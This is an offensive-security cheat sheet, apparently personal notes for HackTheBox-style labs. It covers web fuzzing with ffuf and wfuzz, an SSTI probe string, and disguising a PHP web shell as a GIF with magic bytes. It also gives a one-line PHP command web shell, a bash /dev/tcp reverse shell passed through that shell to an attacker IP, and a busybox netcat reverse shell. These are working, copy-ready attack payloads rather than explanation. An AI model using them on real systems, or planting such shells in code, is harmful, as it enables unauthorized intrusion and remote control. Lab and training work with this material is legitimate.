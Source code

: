 Fuzzing search bar parameters with ffuf
```
ffuf -k -u https://watch.streamio.htb/search.php -d "q=FUZZ" -w /usr/share/seclists/Fuzzing/special-chars.txt -H 'Content-Type: application/x-www-form-urlencoded'
```
- Variable sizes indicate some possibly SQLi vulnerability
- Test characters one by one and try to guess syntax of the SQL

Fuzz sub-directories (target IIS servers)
```
wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --sc 200,301 $URL/FUZZ
```
### SSTI

Check for SSTI vulnerability 
```
${{<%[%'"}}%\.
```
- Determine if it's SSTI or SQLi by removing some of the bad characters from SSTI payload.
	- if server fails on `'` - likely SQLi

### PHP Rev Shell

Append 'gif89' magic bytes to php web shell
```
echo -e -n "\x47\x49\x46\x38\x39\x61" > magic_bytes.tmp
```

```
cat magic_bytes.tmp web-shell.php > web-shell.php.gif
```

### Web Shell
```
<?php system($_GET['cmd']); ?>
```

### Reverse Shell as parameter for Web Shell in Burp

```
GET /uploads/10_10_14_10.php.gif?cmd=bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```
Resource: [[HackTheBox/Linux/Magic|Magic]]
### Linux BusyBox Rev Shell 
```
busybox nc 192.168.45.152 4444 -e /bin/sh
```
- Use cases: nc unavailable / this is a linux all purpose shell

### CSRF
## SMB Enumeration
